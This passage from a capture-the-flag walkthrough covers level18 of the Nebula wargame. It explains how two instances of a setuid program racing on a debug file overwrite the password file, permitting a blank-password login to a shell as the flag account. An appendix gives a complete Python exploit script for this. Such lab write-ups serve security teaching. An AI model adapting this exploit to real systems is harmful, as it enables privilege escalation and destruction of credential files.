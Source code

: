 There are 31 `NULL` bytes leading to our new password, the exact number of chars in the string `Starting up. Verbose level = 0\n` we truncated.
* even though we truncated `debugfile` in process 2,
* process 1's file position for `debugfile` is offset at 31 bytes from the start, because it wrote the string to the file,
* process 1 is not aware of the truncation that happend in process 2.

And then in `login()` we compare the password given and read from the file till a `NULL` byte.
```c
        // compare argument pw and 64 bytes long file till a null byte (at most 64 bytes)
        if (strcmp(pw, file) != 0)
            // return if not equal
            return;
```
We need to input an empty password (`NULL`) in the login endpoint to pass the compare.
```console
level18@nebula:/home/flag18$ ./flag18
login
shell
flag18@nebula:~$ whoami
flag18
flag18@nebula:~$ getflag
You have successfully executed getflag on a target account
```
Congratz! Visit the appendix for a Python script automating the exploit.

### Second Exploit
WIP

## Appendix
### First Exploit Script
```python
import subprocess
import os

PROGRAM = r'/home/flag18/flag18'
PASSWORD_FILE = r'/home/flag18/password'

print "This exploit will erase the password file, should continue?"
if raw_input('y to continue: ') != 'y':
        raise Exception("user chose not to continue with exploit")

# start process 1, this will write garbage message to password file
p1 = subprocess.Popen([PROGRAM, '-d', PASSWORD_FILE], stdin=subprocess.PIPE)

# start process 2, this will truncate password file
p2 = subprocess.Popen([PROGRAM, '-d', PASSWORD_FILE, '-d', '/tmp/test'], stdin=subprocess.PIPE)

# EOF - the program will terminate
p2.stdin.close()
if p2.wait() != 0:
        raise Exception("process 2 failed to terminate successfully")

# write empty string to password file
p1.stdin.write('site exec love')

# terminate p1
p1.stdin.close()
if p1.wait() != 0:
        raise Exception("process 1 failed to terminate successfully")

print "Exploit finished successfully..."
print "Login with a blank password to get a shell!\n"
```